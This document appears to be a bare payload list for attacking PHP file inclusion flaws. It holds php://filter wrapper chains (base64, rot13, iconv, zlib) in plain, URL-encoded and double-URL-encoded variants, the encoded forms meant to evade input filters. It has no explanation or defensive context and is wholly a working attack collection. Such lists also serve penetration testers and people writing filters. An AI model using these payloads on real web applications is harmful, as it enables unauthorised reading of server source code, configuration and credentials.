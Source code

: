 ##payload for phpFilter Normal:

php://filter/convert.iconv.utf-8.utf-16le/resource=

php://filter/read=string.toupper|string.rot13|string.tolower/resource=

php://filter/string.toupper/string.rot13/string.tolower/resource=

php://filter/string.strip_tags/resource=

php://filter/convert.base64-decode/resource=

php://filter/convert.base64-encode/resource=

php://filter/convert.base64-encode|convert.base64-decode/resource=

php://filter/convert.quoted-printable-encode/resource=

php://filter/zlib.deflate/convert.base64-encode/resource=

.....................................................................
##payload for phpFilter Url Encode:

php%3a%2f%2ffilter%2fconvert%2eiconv%2eutf-8%2eutf-16le%2fresource%3d

php%3a%2f%2ffilter%2fread%3dstring.toupper%7cstring%2erot13%7cstring%2etolower%2fresource%3d

php%3a%2f%2ffilter%2fstring%2etoupper%2fstring%2erot13%2fstring%2etolower%2fresource%3d

php%3a%2f%2ffilter%2fstring%2estrip_tags%2fresource%3d

php%3a%2f%2ffilter%2fconvert%2ebase64-decode%2fresource%3d

php%3a%2f%2ffilter%2fconvert%2ebase64-encode%2fresource%3d

php%3a%2f%2ffilter%2fconvert%2ebase64-encode%7cconvert%2ebase64-decode%2fresource%3d

php%3a%2f%2ffilter%2fconvert%2equoted-printable-encode%2fresource%3d

php%3a%2f%2ffilter%2fzlib%2edeflate%2fconvert%2ebase64-encode%2fresource%3d
......................................................................
##payload for phpFilter double Url Encode:

php%253A%252F%252Ffilter%252Fconvert%252eiconv%252eutf-8%252eutf-16le%252Fresource%253D

php%253A%252F%252Ffilter%252Fread%253Dstring%252etoupper%257Cstring%252erot13%257Cstring%252etolower%252Fresource%253D

php%253A%252F%252Ffilter%252Fstring%252etoupper%2Fstring%252erot13%2Fstring%252etolower%252Fresource%253D

php%253A%252F%252Ffilter%252Fstring%252estrip_tags%252Fresource%253D

php%253A%252F%252Ffilter%252Fconvert%252ebase64-decode%252Fresource%253D

php%253A%252F%252Ffilter%252Fconvert%252ebase64-encode%252Fresource%253D

php%253A%252F%252Ffilter%252Fconvert%252ebase64-encode%7Cconvert%252ebase64-decode%252Fresource%253D

php%253A%252F%252Ffilter%252Fconvert%252equoted-printable-encode%252Fresource%253D

php%253A%252F%252Ffilter%252Fzlib%252edeflate%252Fconvert%252ebase64-encode%252Fresource%253D
